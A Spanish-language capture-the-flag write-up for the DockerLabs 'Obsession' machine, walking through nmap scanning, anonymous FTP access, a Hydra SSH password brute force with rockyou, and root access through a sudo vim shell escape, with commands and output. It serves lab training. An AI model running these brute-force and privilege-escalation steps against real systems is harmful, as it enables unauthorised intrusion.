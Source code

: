 # 🖥️ Writeup - Obsession

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip obsession.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh obsession.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p21,22,80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-11 16:11 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000024s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0             667 Jun 18  2024 chat-gonza.txt
|_-rw-r--r--    1 0        0             315 Jun 18  2024 pendientes.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 60:05:bd:a9:97:27:a5:ad:46:53:82:15:dd:d5:7a:dd (ECDSA)
|_  256 0e:07:e6:d4:3b:63:4e:77:62:0f:1a:17:69:91:85:ef (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Russoski Coaching
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.87 seconds
```

Vemos que el `login` anónimo por el puerto `21` (`FTP`) está habilitado, así que vamos a explorar su contenido. 

```bash
ftp 172.17.0.2
```

Introducimos el usuario `anonymous` y dejamos la contraseña en blanco.

Dentro encontramos dos archivos `.txt`, los transferimos a nuestra máquina atacante y los leemos.

Uno de los archivos es un registro de chats entre dos personas: `gonza` y `russoski`, que podrían ser usuarios del sistema.

Accedemos al puerto `80` y comprobamos que hay una página web montada por `russoski`. 

Además, en el código fuente encontramos el siguiente comentario:

```
<! -- Utilizando el mismo usuario para todos mis servicios, podré recordarlo fácilmente -->
```

Es bastante probable que `russoski` sea un usuario del sistema, así que intentamos un ataque de fuerza bruta con `Hydra` al puerto `SSH`.

```bash
hydra -l russoski -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh -t 60
```

Info:
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-11 16:20:09
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 60 tasks per 1 server, overall 60 tasks, 14344399 login tries (l:1/p:14344399), ~239074 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme
```

Obtenemos credenciales para el usuario `russoski` : `iloveme`.

Nos conectamos por `SSH`.

```bash
ssh russoski@172.17.0.2
```

# ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo`, `SUID`, `Capabilities`.

```bash 
sudo -l
```

Info:
```
Matching Defaults entries for russoski on eb38cc248594:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User russoski may run the following commands on eb38cc248594:
    (root) NOPASSWD: /usr/bin/vim
```

Vemos que podemos ejecutar el binario `vim` con privilegios de `root`, lo cual aprovechamos de la siguiente manera:

```bash
sudo vim -c ':!/bin/sh'
```

Info:
```
# whoami
root
#
```

Ya somos root!